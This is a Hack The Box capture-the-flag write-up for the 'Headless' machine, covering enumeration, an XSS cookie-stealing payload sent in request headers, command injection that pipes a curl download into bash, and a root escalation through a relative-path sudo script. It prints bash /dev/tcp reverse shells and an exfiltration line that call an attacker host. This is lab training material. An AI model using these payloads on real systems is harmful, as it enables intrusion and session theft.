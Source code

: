 # Headless machine from [Hack The Box](https://www.hackthebox.com)

Target ip: 10.10.11.8

## 1) Enumeration and reconnaissance
As always we start scanning the target with `nmap`
``` bash
nmap -p- -sS -n -Pn -vvv --min-rate 7000 -oG open_ports 10.10.11.8
```
There are **two open ports** are: 22 (SSH) and 5000.

We can obtain more information on the services running on those ports using some scanning scripts from nmap with the following command
``` bash
nmap -p22,5000 -sCV --min-rate 7000 -n -oN ports_details 10.10.11.8
```
`-sC:` to run default reconnaissance scripts \
`-sV:` to perform a version scan

We can see that TCP port 5000 is hosting a web server so from the browser we go to `http://10.10.11.8:5000/` and find out a button that redirects as to a "support page" containing a form.

<style>
.center-60 {
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 60%;
}
</style>


<img src="imgs/homepage.png" alt="Home page" width="50%" height="50%" class="center-60">

<img src="imgs/support.png" alt="Support page" width="80%" height="50%" class="center-60">

Before playing with the form in the support page it would be interesting to do some fuzzing hoping to find more endpoints.

``` bash
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x html,php,txt,py -q
```

# Gaining access to target machine

After playing a while with the form fields I wasn't able to obtain neither XSS nor SQL injections. So I decided to go back and look for any other endpoint gobuster may have found and the only other results was `/dashboard` with code 500, so since I can't access dashboard nor gain access with the fields from the form, I will try manipulating the request headers.

Following the first approach on [this blog](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) we can try to steal cookies which may help us to bypass the security of `/dashboard`.

So the idea is to add the following to some fields on the header request (using Burpsuite's repetear here)
``` bash
<script>var i=new Image(); i.src="http://<MY-IP>/?cookie="+btoa(document.cookie);</script>
```
But before sending the requests we need to open a http server:\
`python3 -m http.server -m 80`

Once the requests go throw we receive, in the terminal running the python server, a cookie:
`aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=`\
It's base64 encoded so we decode it
``` bash
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
#is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Turns out the cookie's name is `is_admin`, therefore it makes sense trying to use it to bypass `/dashboard` security.

To do so, instead of continue using Burpsuite I'm gonna use the browser directly. In my case I'm using Firefox but any web browser works the same. What we need to do before going to the desired endpoint is to manually add the obtained cookie to the request, for that we use the 'web developer tools' tab from the browser and add our cookie there.

![Cookie](imgs/cookie.png)

It worked! We bypassed the 500 code! But we are not inside target machine yet.

Now the panel does not contain too much info, just a button and a drop down list to pick dates. Whenever we see this kind of drop-down lists that forces us to some predefined inputs it's a good idea to intercept the requests with a proxy and manually modifies those. \
So once again we use Burpsuite and intercept the request that happens when we press the 'Generate Report' button.
![Dashboard-bypass](imgs/dashboard-bypass.png)


Modifying the date does not seem to be doing anything. BUT, the server is executing our commands, we achieved RCE!
How? This is an example payload:

![alt text](imgs/payload.png)

I'm using `curl` to read the content of a file from my machine and piping it to bash so the server executes it. The content of that `pwned.sh` is nothing else than a reverse shell
``` bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```
Before sending the request from Burpsuite's repeater we must start listening on the choosen port (434) and open a server to share the file
``` bash
nc -nlvp 434
python -m http.server 443
```

After sending the request we receive a connection in the terminal running netcat.

## Retrieving user flag
We are already logged in as the user `dvir` so retrieving the user flag is easy
`cat /home/dvir/user.txt`

## Scalating privileges
Now the challenge is to obtain root access in order to retrieve the root flag.

As always my first approach is to run `sudo -l` to see if we have any special access.
It happens that the user `dvir` is able to run the script `/usr/bin/syscheck` with sudo levels.

![Dvir user](imgs/dvir-user.png)
![Serving pwned script](imgs/sharing-pwned.png)

![Scalating privilegs](imgs/scalating-priv.png)

Inspecting that script we realize it's running another script called `initdb.sh` using a relative path. So we just go ahead and create our own file with the same name, the content is would be -once again, a reverse shell. And since we are going to run it as sudo, the root user is the one that would be stablishing that connection.
``` bash
# content of initdb.sh
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```

From host machine we use netcat to listen on a port 
``` bash
nc -nlvp 434
```

``` bash
# we run the syscheck script as sudo
sudo /usr/bin/syscheck
```

On the terminal listening with netcat we received a connection! And the user is **root**.\
Now we get the remaining flag 

`cat /root/root.txt`


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Server on port 5000 ended up being vulnerable to XSS via request's headers.
* Cookie hijacking allowed us to bypass `/dashboard` security panel.
* Improper sanitization of payload request allowed an RCE.
* User dvir is able to run a vulnerable script as sudo.